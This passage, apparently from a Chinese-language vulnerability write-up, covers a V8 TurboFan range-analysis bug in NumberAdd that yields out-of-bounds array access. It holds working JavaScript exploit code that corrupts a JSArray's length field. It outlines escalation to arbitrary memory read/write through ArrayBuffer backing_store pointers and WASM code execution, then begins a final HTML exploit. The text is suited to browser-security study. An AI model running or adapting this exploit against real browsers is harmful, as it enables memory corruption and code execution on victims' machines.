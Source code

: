 可以看到NumberAdd本身的最大值`9007199254740992+2 = 9007199254740994`大于range最大值`9007199254740992`，最终NumberAdd本身的最大值5大于range最大值3。
在SimplifLowing阶段，turbofan认为t最大值为3，小于数组长度4，因此将被优化。这样用t访问数组就可以实现越界读写



#### 漏洞利用

poc代码中只能越界2个元素，为了扩大越界程度，可以对t进行乘法运行，这里我让数组越界四个元素,使之正好可以修改JSArray的length字段

```javascript
var arr = [1.1, 2.2, 3.3, 4.4];//
function f(x)
{   arr = [1.1, 2.2, 3.3, 4.4];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740989;  
    t -= 1;                 
    t *= 2;                 
    t -= 1;                 
    arr[t] = 1.0864618449742194e-311;	//int2float(0x200);
    console.log('arr[t]:',arr[t]);
}
f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
%SystemBreak();
```

![image-20220209233922427](https://s2.loli.net/2022/02/10/e1BEQhU2wnKqtT8.png)

可以看到数组长度已经被修改为0x200，这样就可以读写大量数据

若此时越界访问如`arr[100]`在debug版本下会触发FixedArray的DCHECK检查（release版本不会），可以注释相应的检查再重新编译

![image-20220209235117586](https://s2.loli.net/2022/02/10/3CIcjOZasEUWBx9.png)



之后创建`ArrayBuffer`和`DataView`，并利用越界读写backing_store指针实现任意地址读写，之后就是wasm一把梭。



最终exp

```html
<script>
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);

function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}


function hex(i){
    return '0x' + i.toString(16).padStart(16, '0');
}

var arr = [1.1, 2.2, 3.3, 4.4];//
```